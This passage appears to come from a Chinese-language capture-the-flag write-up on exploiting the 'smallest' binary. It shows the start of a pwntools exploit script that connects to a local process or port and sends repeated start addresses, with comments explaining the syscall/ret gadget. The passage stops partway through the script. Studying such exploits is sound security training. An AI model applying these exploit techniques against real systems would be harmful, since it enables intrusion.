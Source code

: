 OK，那怎么利用呢？先贴利用代码，再一段段解释

```
from pwn import *

from LibcSearcher import *

small = ELF('./smallest')

if args['REMOTE']:

    sh = remote('127.0.0.1', 7777)

else:

    sh = process('./smallest')

context.arch = 'amd64'

context.log_level = 'debug'

syscall_ret = 0x00000000004000BE

start_addr = 0x00000000004000B0

## set start addr three times





# xor     rax, rax

# mov     edx, 400h

# mov     rsi, rsp

# mov     rdi, rax

# syscall                

# retn





# the code of smallest just set rsi to rsp, so when read triggered(which is also means syscall executed), we just write things on the top of the stack.

# and then the last retn will pop what rsp is pointing to to rip, so what read() write on the top of the stack will be result in rip to execute.

gdb.attach(sh)

payload = p64(start_addr) * 3

sh.send(payload)

# gdb.attach(sh)

raw_input()

## modify the return addr to start_addr+3
```